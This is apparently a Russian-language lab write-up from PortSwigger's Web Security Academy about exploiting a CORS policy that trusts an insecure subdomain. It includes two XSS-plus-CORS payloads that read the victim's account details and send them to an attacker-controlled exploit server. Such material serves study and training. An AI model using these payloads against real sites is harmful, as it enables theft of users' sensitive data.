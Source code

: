 Приложение отвечает следующим образом:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

В этой ситуации злоумышленник, имеющий возможность перехватывать трафик пользователя-жертвы, может использовать конфигурацию CORS для компрометации взаимодействия жертвы с приложением. Эта атака включает в себя следующие шаги:

- Пользователь-жертва делает любой обычный HTTP-запрос
- Злоумышленник вводит перенаправление на:
    `http://trusted-subdomain.vulnerable-website.com`
- Браузер жертвы следует за перенаправлением
- Злоумышленник перехватывает обычный HTTP-запрос и возвращает поддельный ответ, содержащий CORS-запрос на:
    `https://vulnerable-website.com`
- Браузер жертвы выполняет CORS-запрос, включая происхождение:
    `http://trusted-subdomain.vulnerable-website.com`
- Приложение разрешает запрос, поскольку это источник из белого списка. Запрашиваемые конфиденциальные данные возвращаются в ответе
- Поддельная страница злоумышленника может прочитать конфиденциальные данные и передать их на любой домен, находящийся под контролем злоумышленника

Эта атака эффективна, даже если на уязвимом сайте используется протокол HTTPS, нет конечной точки HTTP и все файлы cookie помечены как безопасные

```html
<script>
document.location="http://stock.0a1600430362a793c76d2c60005d00d3.web-security-academy.net/?productId=4<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a1600430362a793c76d2c60005d00d3.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://exploit-0a6c00e8031ba769c7d22b6001460054.exploit-server.net/log?key='%2bthis.responseText;};%3c/script>&storeId=1"
</script>
```

```html
<script>
document.location="http://stock.0a1600430362a793c76d2c60005d00d3.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a1600430362a793c76d2c60005d00d3.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a6c00e8031ba769c7d22b6001460054.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
